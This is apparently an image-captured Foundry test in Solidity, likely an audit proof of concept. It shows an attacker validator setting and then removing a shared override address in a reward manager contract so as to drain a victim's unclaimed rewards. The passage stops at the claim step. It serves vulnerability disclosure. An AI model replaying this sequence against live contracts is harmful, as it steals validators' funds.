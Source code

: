 ```solidity
        // Setup initial state
        vanillaRegistryTest.testSelfStake();
        address vanillaTestUser = vanillaRegistryTest.user1();
        bytes memory vanillaTestUserPubkey = vanillaRegistryTest.user1BLSKey();

        // Give user1 some unclaimed rewards
        vm.deal(user1, 5 ether);
        vm.prank(user1);
        vm.expectEmit();
        emit PaymentStored(user1, vanillaTestUser, vanillaTestUser, 5 ether); // done
        rewardManager.payProposer{value: 5 ether}(vanillaTestUserPubkey);
        assertEq(rewardManager.unclaimedRewards(vanillaTestUser), 5 ether);

        // User1 sets override address with migration
        vm.prank(vanillaTestUser);
        vm.expectEmit();
        emit OverrideAddressSet(vanillaTestUser, overrideAddress);
        rewardManager.overrideReceiver(overrideAddress, true);
        assertEq(rewardManager.unclaimedRewards(overrideAddress), 5 ether);
        assertEq(rewardManager.unclaimedRewards(vanillaTestUser), 0 ether);

        // Setup attacker with validator
        address vanillaAttacker = vanillaRegistryTest.user2();
        bytes memory attackerPubkey = vanillaRegistryTest.user2BLSKey();

        // Register attacker's validator with correct withdrawal address
        vm.deal(vanillaAttacker, 9 ether);
        bytes[] memory validators = new bytes[](1);
        validators[0] = attackerPubkey;
        vm.startPrank(vanillaAttacker);
        vanillaRegistryTest.validatorRegistry().stake{value: 9 ether}(validators);
        vm.stopPrank();
        assertTrue(vanillaRegistryTest.validatorRegistry().isValidatorOptedIn(attackerPubkey));

        // Here user2 behaves like an attacker
        vm.deal(user2, 5 ether);
        vm.prank(user2);
        vm.expectEmit();
        emit PaymentStored(user2, vanillaAttacker, vanillaAttacker, 5 ether);
        rewardManager.payProposer{value: 5 ether}(attackerPubkey);
        assertEq(rewardManager.unclaimedRewards(vanillaAttacker), 5 ether); 

        // Attacker sets same override address with migration
        vm.prank(vanillaAttacker);
        vm.expectEmit();
        emit OverrideAddressSet(vanillaAttacker, overrideAddress);
        rewardManager.overrideReceiver(overrideAddress, true);
        assertEq(rewardManager.unclaimedRewards(overrideAddress), 10 ether); // 5 ether from user1 + 5 ether from attacker
        assertEq(rewardManager.unclaimedRewards(vanillaTestUser), 0 ether);
        assertEq(rewardManager.unclaimedRewards(vanillaAttacker), 0 ether);

        // Attacker removes override address with migration
        vm.prank(vanillaAttacker);
        vm.expectEmit();
        emit OverrideAddressRemoved(vanillaAttacker);
        rewardManager.removeOverrideAddress(true);
        assertEq(rewardManager.unclaimedRewards(overrideAddress), 0 ether);
        assertEq(rewardManager.unclaimedRewards(vanillaAttacker), 10 ether); // All funds should go to attacker
        assertEq(rewardManager.unclaimedRewards(vanillaTestUser), 0 ether);

        // Attacker claims their rewards
```